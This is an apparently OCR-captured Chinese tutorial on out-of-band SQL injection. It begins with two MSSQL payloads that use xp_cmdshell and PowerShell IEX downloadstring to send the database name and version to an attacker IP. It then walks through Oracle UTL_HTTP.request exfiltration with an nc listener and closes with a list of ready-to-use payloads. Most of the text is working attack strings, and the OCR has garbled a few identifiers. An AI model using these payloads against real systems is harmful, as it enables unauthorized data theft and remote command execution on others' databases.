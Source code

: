 ```
?id=1'; DECLARE @a varchar(8000);SET @a=db_name();exec('master..xp_cmdshell "powershell IEX (new-object net.webclient).downloadstring(''http://172.16.12.172:8888?data='%2b @a %2b''')"' ) --
?id=1'; DECLARE @okma VARCHAR(8000);SET @okma=(SELECT TOP 1 substring(@@version,1,35));exec('master..xp_cmdshell "powershell IEX (new-object net.webclient).downloadstring(''http://172.16.12.172:7777/?data='%2b @okma %2b''')"' ) --
```

## Oracle 数据外带

> **外带原理**

- 利用内置函数**utl_http.request()** 发起HTTP请求，然后通过监听IP:端口 记录或外带平台查看返回数据

> **相关函数**

- **utl_http.request()**函数**
  - **函数说明** ：在Oracle中提供了utlhttprequest函数,用于取得web服务器的请求信息,因此,攻击者可以自己监听端口,然后通过这个函数用请求将需要的数据发送反弹回头
  - **UTL_HTTP包介绍** ：提供了对HTTP的一些操作。
  - **举例** ：执行这条SQL语句，将返回 baidu. com的HTML源码

```
select UTL_HTTP.REQUEST('[http://www.baidu.com'](http://www.baidu.com))from dual
```

> **带外注入过程**

1. 判断 UTL_HTTP存储过程是否可用

- 在注入点提交如下查询:

```
select count(*) from allobjects where object name='UTL_HTTP'
```

- 通过页面回显判断UTL_HTTP是否可用,如果页面返回正常,则说明UTL_HTTP存储过程可用

1. 使用NC监听数据

- 在本地用nc监听一个端口，要求本地主机拥有一个外网的ip地址
- nc-lvvp监听端口

1. 反弹数据信息

- 在注入点提交：



```
and UTL_HTTP.request('[http://ip](http://ip):监听端口/'||(查询语句)=1--
```

- 即可实现注入攻击

注意：每次在注入点提交一次请求，nc监听完后就会断开，需要重新启动nc监听

> **常用payload**

- 判断utl_http是否可用



```
id=1 and exists (select count(*) from all_objects where object_name='UTL_HTTP')--
id=1 and (select count(*) from all_objects where object_name='UTL_HTTP')>1--
id=1 union select 1,null,3,(select count(*) from all_objects where object_name='UTL_HTTP') from dual-- 
```
